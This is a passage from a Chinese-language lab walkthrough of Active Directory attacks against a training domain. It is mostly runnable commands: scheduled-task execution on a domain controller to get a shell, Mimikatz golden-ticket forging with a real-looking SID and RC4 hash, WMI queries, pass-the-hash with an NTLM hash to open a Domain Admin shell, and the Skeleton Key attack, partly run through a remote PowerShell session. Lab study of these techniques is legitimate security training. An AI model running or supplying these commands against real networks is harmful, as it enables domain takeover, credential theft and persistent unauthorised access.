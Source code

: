 ```
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "User3666"
```



收到DC返回来的shell

![image-20220306210618463](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306210618463.png)

## WMI

RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

然后执行WMI 

```
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

![image-20220306210901046](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220306210901046.png)

# Learning Objective 10:
```Task
● Use Domain Admin privileges obtained earlier to execute the Skeleton Key attack.
```

开一个DA shell

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:af0686cc0ca8f04df42210c9ac980760 /run:powershell.exe"'
```


### 方法1
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
### 方法2(推荐)
回到学生机器,创建一个DC的登录session
```
$sess = New-PSSession dcorp-dc.dollarcorp.moneycorp.local
```

把mimikatz加载到指定session
```
Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```
